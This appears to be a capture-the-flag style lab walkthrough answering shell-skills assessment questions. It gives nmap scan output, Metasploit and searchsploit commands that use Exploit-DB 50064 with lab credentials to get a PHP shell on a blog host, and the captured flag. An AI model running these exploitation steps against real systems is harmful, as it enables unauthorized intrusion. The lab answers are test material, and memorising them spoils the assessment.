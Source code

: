 ```bash
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 00:50:56:B9:5C:7A (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ubuntu

### What language is the shell written in that gets uploaded when using the 50064.rb exploit?

```bash
#based on the blog
https://www.exploit-db.com/exploits/50064
```

PHP

### Exploit the blog site and establish a shell session with the target OS. Submit the contents of /customscripts/flag.txt

I have downloaded the exploit and saved it into the metasploit exploits folder as _**light\_facebook.**_ Then i have used the command _**updatedb**_ and i was able to use the exploit from metasploit.

```bash
mkdir .msf4/modules/exploits/php/webapps
searchsploit -p 50064
searchsploit -m 50064 /usr/share/exploitdb/exploits/php/webapps/50064.rb
updatedb
msfconsole
set rhosts blog.inlanefreight.local
set user admin
set password admin123!@#
run
sessions -i 1
cat /customscripts/flag.txt
B1nD_Shells_r_cool
```

### What is the hostname of Host-3?

```bash
┌─[htb-student@skills-foothold]─[~]
└──╼ $nmap -sC -sV 172.16.1.13
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-17 12:59 EST
Nmap scan report for 172.16.1.13
Host is up (0.074s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: 172.16.1.13 - /
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h40m00s, deviation: 4h37m07s, median: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: SHELLS-WINBLUE, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:e6:b4 (VMware)
```